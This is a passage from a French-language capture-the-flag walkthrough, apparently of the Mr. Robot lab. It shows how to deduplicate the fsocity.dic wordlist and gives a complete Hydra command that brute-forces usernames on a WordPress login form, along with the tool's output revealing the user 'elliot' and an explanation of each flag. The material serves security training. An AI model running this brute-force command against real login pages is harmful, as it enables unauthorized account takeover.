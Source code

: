 Ici, nous trions d'abord le fichier `fsocity.dic`, puis, en utilisant la commande `uniq`, nous supprimons tous les doublons de la sortie précédente en utilisant un pipe `|`. Vous constaterez que le nombre de mots diminuera considérablement, passant de 858 160 lignes à 11 451 — un gain considérable !

Cela n'affecte pas le résultat de l'attaque par bruteforce, mais seulement ses performances. Nous ne voulons pas que notre attaque par bruteforce essaie 846 709 identifiants deux fois (ou plus !).

Bref, lançons l'attaque par bruteforce maintenant pour vérifier si nous pouvons récupérer un nom d'utilisateur. Si c'est le cas, nous devrions faire de même pour le mot de passe.

```bash
hydra -L fsocity_uniq.dic -p test target http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Ftarget%2Fwp-admin%2F&testcookie=1:F=Invalid username" -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (<https://github.com/vanhauser-thc/thc-hydra>) starting at 2025-08-03 12:07:54
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 11452 login tries (l:11452/p:1), ~179 tries per task
[DATA] attacking http-post-form://target:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Ftarget%2Fwp-admin%2F&testcookie=1:F=Invalid username
[STATUS] 5435.00 tries/min, 5435 tries in 00:01h, 6017 to do in 00:02h, 64 active
[80][http-post-form] host: target   login: elliot   password: test
[80][http-post-form] host: target   login: ELLIOT   password: test
[80][http-post-form] host: target   login: Elliot   password: test
[STATUS] 5516.50 tries/min, 11033 tries in 00:02h, 419 to do in 00:01h, 64 active
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

**Explication de la commande :**

- `L` : Drapeau utilisé pour spécifier un fichier dictionnaire de noms d'utilisateur → effectue une bruteforce sur le nom d'utilisateur
- `p` : Drapeau utilisé pour spécifier un mot de passe statique → le mot de passe ne changera pas
- `target` : Adresse IP ou nom de domaine de la cible
- `http-post-form` : Module utilisé pour effectuer la bruteforce → Nous essayons de nous connecter via une requête HTTP POST
- `t 64` : Drapeau utilisé pour spécifier un nombre de threads (parallélisation de la bruteforce) → pour effectuer plus d'essais par tâche.

**Note : La partie `"/wp-login.php:log=^USER^&pwd=^PASS^...` peut faire peur au premier abord mais en réalité elle suit simplement la syntaxe suivante : `"<url>:<post_data>:<failure_string>"`.**

- `<url>` : Chemin d'accès à la page de connexion. Ici, il s'agit de `/wp-login.php`.
- `<post_data>` : Données POST à envoyer. Il s'agit de la ligne de la capture d'écran précédente de Burp Suite (voir ci-dessous). Notez que nous avons remplacé les valeurs statiques par les variables Hydra à l'aide d'une paire de `^`.
- `<failure_string>` : Chaîne de caractères apparaissant dans la réponse en cas d'échec de connexion. Ici, nous utiliserons `F=Invalid username`.
